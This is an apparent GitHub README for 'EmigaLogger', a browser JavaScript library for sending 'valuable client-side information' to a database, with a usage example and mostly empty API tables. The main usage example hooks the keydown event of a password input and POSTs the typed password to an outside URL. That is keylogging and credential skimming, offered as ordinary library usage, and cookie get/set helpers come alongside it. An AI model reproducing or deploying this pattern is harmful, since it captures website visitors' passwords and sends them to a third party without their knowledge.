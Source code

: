 <h1 align="center">EmigaLogger for Browsers</h1>
<div align="center">
EmigaLogger combines several modules to send valuable client-side valuable information to a database
</div>

## Install
```html
<script type="text/javascript" src="cdn-link"></script>
```

## Usage
```js
const Logger   = new EmigaLogger();
const Data     = new EmigaData();
const Selector = new EmigaSelector();

const Password = Selector.Select('input[name=password]');
Logger.Log(Password,'keydown',()=>{
    Data.Send('https://example.com',{
        method: 'POST',
        body: JSON.stringify({
           password: Selector.Value(Password)
        }) 
    });
});
```
For examples  [./demo/](demo)
- `button`  [./demo/button.html](demo/button.html)
- `example` [./demo/example.html](demo/example.html)
- `form`    [./demo/form.html](demo/form.html)
- `input`   [./demo/input.html](demo/input.html)

## API Reference
### new EmigaLogger()
#### EmigaLogger().Log(query,state,callback)
| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| query     |      	|         	|             	|
| state     |      	|         	|             	|
| callback  |      	|         	|             	|
#### EmigaLogger.Call(callback)
| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| callback  |      	|         	|             	|
### new EmigaSelector()
#### EmigaSelector().Select(query)
| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| query     |      	|         	|             	|
#### EmigaSelector().Submit(query)
| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| query     |      	|         	|             	|
#### EmigaSelector().Value(query)
| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| query     |      	|         	|             	|
#### EmigaSelector().Text(query)
| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| query     |      	|         	|             	|
### new EmigaData()
#### EmigaData().Serialize(form)
| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| form      |      	|         	|             	|
#### EmigaData().Send(url,options)
| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| url       |      	|         	|             	|
| options.method         |      	|    `GET`,`POST`,`PUT`,`HEAD`,`DELETE`,`PATCH`,`OPTIONS` |             	|
| options.mode           |      	|   `no-cors`, `cors`, `same-origin`  |             	|
| options.cache          |      	|  `Value`, `no-cache`, `reload`, `force-cache`, `only-if-cached` |             	|
| options.credentials    |      	| `include`, `same-origin`, `omit`        	|             	|
| options.headers        |      	|         	|             	|
| options.redirect       |      	|  `manual`, `follow`, `error` |             	|
| options.referrerPolicy |      	|  `no-referrer`, `client` |             	|
| options.body           |      	|         	|             	|
### new EmigaToken()
#### EmigaToken().uuid()
### new EmigaCookies()
#### EmigaCookies().Get(name)
| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| name      |      	|         	|             	|
#### EmigaCookies().Set(name,value,options)
| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| name      |      	|         	|             	|
| value     |      	|         	|             	|
| options.expires   |      	|         	|             	|
| options.path      |      	|   `/` (default)  	|             	|
| options.domain    |      	|         	|             	|
| options.secure    |      	|   `true`, `false`      	|             	|
| options.sameSite  |      	|    `lax`, `strict`     	|             	|
#### EmigaCookie().Delete(name)
| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| name      |      	|         	|             	|
#### EmigaCookie().Cookie(name,value,days)
| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| name      |      	| `X-UUID` (default)  |             	|
| value     |      	|           |             	|
| days     |      	|  `1`  (default)    |             	|
### new EmigaInit(event)